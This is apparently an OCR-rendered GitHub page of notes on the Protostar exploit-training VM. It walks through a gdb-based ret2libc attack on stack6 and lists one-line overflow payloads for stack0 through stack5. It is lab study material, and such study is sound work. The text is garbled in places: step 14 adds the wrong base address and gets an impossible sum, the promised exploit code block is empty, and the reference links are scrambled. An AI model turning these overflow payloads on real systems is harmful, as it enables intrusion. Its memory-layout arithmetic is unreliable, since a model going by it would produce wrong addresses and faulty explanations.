 

## Stack6: ret2libc
------------------------------------------------------------------------
[Walkthrough]: https://www.youtube.com/watch?v=Y1RRda2Wnpw
[Walkthrough]: https://www.youtube.com/watch?v=m17mV24TgwY

> 1.  $ cd /opt/protostar/bin
>
> 2.  $ gdb stack6
>
> 3.  `(gdb) set disassembly-flavor intel`
>
> 4. Print registers, subset of stack, and upcoming intructions
>    after each step
>
>     `(gdb) define hook-stop`
>     `> python print '------------------------'`
>     `> info registers`   #prints registers
>     `> python print '------------------------'`
>     `> x/24wx $esp`      #prints stack
>     `> python print '------------------------'`
>     `> x/5i $eip`        #prints instructions
>     `> python print '------------------------'`
>     `> end`
>
> 5. Break after user input in the gets method in getpath:
>     `(gdb) break *(getpath+43)`
>
> 6. Break at the end of getpath method:
>     `(gdb) break *(getpath+116)`
>
> 7. On a separte terminal run: `python -c "print 'A'*64"`
>
> 8. `(gdb) r`
>
> 9. Enter the 'A's from step 7 when asked for input
>
> 10. You should have hit your breakpoint
>
> 11. Get address to system (`__libc_system`):
>     `(gdb) p system`
>
>     Output:
>     `$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>`
>
> 12. To see a gernal memory mapping in this process:
>     `(gdb) info proc map`
>
>     Target Output:    
>     `0xb7e97000 0xb7fd5000   0x13e000     0    /lib/libc-2.11.2.so`   
>     0xb7e97000 is the start address of libc   
>
> 13. On a separate terminal, get address to /bin/sh:     
>     `strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"`   
>      
>     Output:   
>     `11f3bf /bin/sh`   
> 
> 14. /bin/sh full address =  0xb7fd7000 + 11f3bf = 0x67fb63bf     
>     `(gdb) x/s 0xb7fd7000 + 11f3bf`
>
> 15. Make a python file in the tmp directory: `vi /tmp/stack6.py`
>
>     Code:
```
```

[Protostar]: https://exploit-exercises.lains.space/protostar/
[Protostar ISO]: https://drive.google.com/drive/folders/0B9RbZkKdRR8qbkJjQ2VXbWNlQzg?usp=sharing
[Reference Stack 0-7]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Walkthroughs]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Walkthrough]: https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13&ab_channel=LiveOverflow
[Simple]: python -c "print('A' * 65)" | ./stack0
[Detailed]: Step-by-Step
[Simple]:  ./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62\x61'")
[Walkthrough]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Simple]: python -c "print('A' * 64 + '\x24\x84\x04\x08')" | ./stack3
[Detailed]: Step-by-Step
[Walkthrough]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Simple]: python -c "print('A' * 76 + '\xf4\x83\x04\x08')" | ./stack4
[Detailed]: Step-by-Step
[Shellcode]: http://shell-storm.org/shellcode/
[Simple]: $ python -c "print('\x90' * 75 + 'BBBB')" | ./stack5
[Detailed]: Step-by-Step
[Walkthrough]: https://www.youtube.com/watch?v=IncswlWGn1M